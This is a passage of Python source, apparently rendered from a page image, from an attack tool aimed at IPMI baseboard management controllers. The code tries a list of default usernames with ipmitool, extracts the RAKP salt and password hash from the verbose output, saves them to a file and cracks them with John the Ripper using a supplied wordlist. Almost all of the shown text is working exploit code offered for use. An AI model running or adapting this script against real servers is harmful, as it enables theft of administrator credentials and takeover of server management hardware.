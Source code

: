 ```python
    i = 0
    for u in user:
        output = subprocess.run(shlex.split(f"ipmitool -I lanplus -H {target} -U {u} -P password -vvv 2>&1"), capture_output=True)
        stderr, stdout = output.stderr.decode(), output.stdout.decode()
    
        if 'illegal parameter' in stderr or 'unauthorized name' in stderr:
            print(f"{red}[!] Wrong username {magenta}{u} {red}***")
            i+=1
            pass
        else:
            print(f"\n{yellow}[+] The username {magenta}{u} {yellow}is {green}valid{yellow}...")
            time.sleep(2)
            break
        
        if 'insuficient resources for session' in stderr: 
            print(f"\n{red}[!] Insuficient resources for session! ***"); sys.exit()
   
    user = user[i]
    # extract data to salt
    data = re.findall(r"rakp2 mac input buffer \(.*\)\s+(?: .*?\n)+\>\> rakp2 mac key", stderr)[0]
    data = re.sub(f"rakp2 mac input buffer \(.*\)\n", "", data).replace("\n>> rakp2 mac key", "").replace("\n", "").split(" ")
    salt = ''.join(data)

    # extract hash
    user_hash = re.findall(r"Key exchange auth code \[sha1\] : (.*?)\n?$", stdout)[0].replace("0x", "")
    final_hash = f"$rakp${salt}${user_hash}"
    
    print(f"\n{yellow}[+] The hash for user {magenta}{user}: {green}{final_hash}")
    # load hash
    hash_file = 'hash'
    with open(hash_file, "w") as f:
        f.write(f"{target} {user}:{final_hash}")
        f.close
    return hash_file

# cracking hash with jhon
def cracking(wordlist, hash_file):
    time.sleep(2)
    print(f"\n{yellow}[+] Cracking hash with {magenta}John {yellow}tool...")
    time.sleep(2)
    subprocess.run(shlex.split(f"john --wordlist={wordlist} \"{hash_file}\""))

def run():
    if os.getuid() != 0:
        print("\n[*]{yellow} You must be {red}root {yellow}to run the script!")
        sys.exit() 
    # asign variables
    target = sys.argv[1]
    port = 623
    user = ["ADMIN", "admin", "Administrator", "root", "USERID", "guest", "Admin"]
    wordlist = sys.argv[2]

    checkConnection(target, str(port))
    checkParameters(target, port, user, wordlist)
    
    if user:
        hash_file = getUserHash(target, port, user)
        cracking(wordlist, hash_file)

# main
```